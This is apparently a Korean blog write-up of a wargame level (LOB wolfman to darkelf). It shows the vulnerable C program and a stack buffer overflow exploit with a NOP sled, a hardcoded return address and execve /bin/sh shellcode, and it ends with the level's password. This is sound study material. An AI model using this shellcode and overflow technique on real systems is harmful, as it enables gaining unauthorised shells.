 ```yaml
---
date: '2022-10-16'
before : '2022-10-15'
after : '2022-10-17'
title: '시스템 해킹(21) : FTZ LOB LEVEL 6'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 전 문제들과 크게 다르지 않았다.

### 1. Level 6 : Wolfman -> Darkelf

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[]){
        char buffer[40];
        int i;
        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')

        {
                printf("stack is still your friend.\n");

                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){

                printf("argument is too long!\n");

                exit(0);
        }
        strcpy(buffer, argv[1]);

        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
입력의 길이가 48을 넘으면 안된다! 하지만 gdb로 까보니 어차피 버퍼의 생성이 -44에서 끝나고 더미 데이터가 없기 때문에 의미가 없다.


저번 문제와 동일하게 NOP SLED로 풀이한다.
```
`python -c 'print "\x90"*44+"\x40\xfc\xff\xbf"'` `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : kernel crashed

 ---
## Source

- 해커스쿨 FTZ
- Me!
